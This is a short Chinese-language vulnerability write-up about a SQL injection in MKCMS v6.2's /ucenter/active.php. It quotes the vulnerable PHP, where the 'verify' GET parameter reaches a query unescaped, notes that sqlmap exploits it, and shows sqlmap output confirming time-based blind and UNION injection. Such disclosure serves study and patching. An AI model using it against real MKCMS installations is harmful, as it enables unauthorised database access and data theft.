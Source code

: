 ```yaml
---
title: MKCMS v6.2 /ucenter/active.php前台sql注入漏洞
id: zhfly3025
---
```


# MKCMS v6.2 /ucenter/active.php前台sql注入漏洞

## 一、漏洞简介

## 二、漏洞影响

MKCMS v6.2

## 三、复现过程

`/ucenter/active.php?verify=1`存在注入

```
/ucenter/active.php
<?php
...
$verify = stripslashes(trim($_GET['verify']));  //去掉了转义用的\
$nowtime = time();
$query = mysql_query("select u_id from mkcms_user where u_question='$verify'");
$row = mysql_fetch_array($query);
... 
```

sqlmap直接跑即可

```
[INFO] GET parameter 'verify' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
[INFO] GET parameter 'verify' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable 
```

## 参考链接

> https://xz.aliyun.com/t/7580#toc-4